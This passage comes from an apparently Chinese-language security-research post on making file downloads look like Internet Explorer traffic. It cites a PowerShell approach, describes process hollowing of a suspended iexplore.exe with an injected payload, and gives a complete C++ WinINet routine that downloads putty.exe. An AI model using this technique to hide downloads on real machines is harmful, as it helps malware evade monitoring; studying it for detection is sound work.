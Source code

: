 **注：**

若IE从未运行过，执行以上代码会弹框提示

powershell代码引用自https://gist.github.com/leoloobeek/f468d34e81795239a8f8bac03646cf59，该页面还包含cs、js和vbs的实现方法

**b) Process Hollowing**

参考文章：

[《傀儡进程的实现与检测》](https://3gstudent.github.io/3gstudent.github.io/%E5%82%80%E5%84%A1%E8%BF%9B%E7%A8%8B%E7%9A%84%E5%AE%9E%E7%8E%B0%E4%B8%8E%E6%A3%80%E6%B5%8B/)

创建傀儡进程iexplore.exe，传入参数`CREATE_SUSPENDED`使进程挂起，清空iexplore.exe进程的内存数据，申请新的内存，写入payload，恢复寄存器环境，执行文件下载


通过c++实现的文件下载代码如下：

```
#include <stdio.h>
#include <windows.h>
#include <wininet.h>
#define MAXBLOCKSIZE 1024
#pragma comment( lib, "wininet.lib" ) ;
void download(const char *Url,const char *save_as)
{
  byte Temp[MAXBLOCKSIZE];
  ULONG Number = 1;

  FILE *stream;
  HINTERNET hSession = InternetOpen((LPCSTR)"RookIE/1.0", INTERNET_OPEN_TYPE_PRECONFIG, NULL, NULL, 0);
  if (hSession != NULL)
  {
    HINTERNET handle2 = InternetOpenUrl(hSession, (LPCSTR)Url, NULL, 0, INTERNET_FLAG_DONT_CACHE, 0);
    if (handle2 != NULL)
    {
      fopen_s(&stream, save_as, "wb" );
      while (Number > 0)
      {
        InternetReadFile(handle2, Temp, MAXBLOCKSIZE - 1, &Number);

        fwrite(Temp, sizeof (char), Number , stream);
      }
      fclose( stream );
      InternetCloseHandle(handle2);
      handle2 = NULL;
    }
    InternetCloseHandle(hSession);
    hSession = NULL;
  }
}
int main(int argc, char* argv[]){
  download("https://github.com/3gstudent/test/raw/master/putty.exe","c:\\test\\putty.exe");
  return 0;
}
```
